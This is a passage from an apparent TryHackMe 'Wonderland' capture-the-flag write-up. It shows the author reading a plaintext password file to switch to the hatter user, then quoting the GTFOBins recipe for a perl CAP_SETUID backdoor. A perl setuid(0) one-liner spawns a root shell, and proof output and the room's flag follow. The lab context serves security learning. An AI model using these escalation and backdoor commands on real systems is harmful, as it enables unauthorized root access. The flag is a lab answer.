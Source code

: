 Now that I am the hatter I can read a password file in his home directory:

```bash
$ cd /home
$ dir
alice  hatter  rabbit  tryhackme
$ cd hatter
$ dir
password.txt
$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

This allows me to switch to the hatter user, and therefore have the ability to run perl

This is from gtfobins:


**Capabilities**

*If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.*

```bash
cp $(which perl) .
sudo setcap cap_setuid+ep perl

./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

## Exploit: perl's CAP_SETUID set


```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
```
# Proof of Compromise

## user.txt
```bash
# id 
uid=0(root) gid=1003(hatter) groups=1003(hatter)

# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:44:b0:81:c6:d7 brd ff:ff:ff:ff:ff:ff
    inet 10.10.16.97/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 1995sec preferred_lft 1995sec
    inet6 fe80::44:b0ff:fe81:c6d7/64 scope link 
       valid_lft forever preferred_lft forever

# cat /root/user.txt
thm{"Curiouser and curiouser!"}

# hostname
wonderland
```
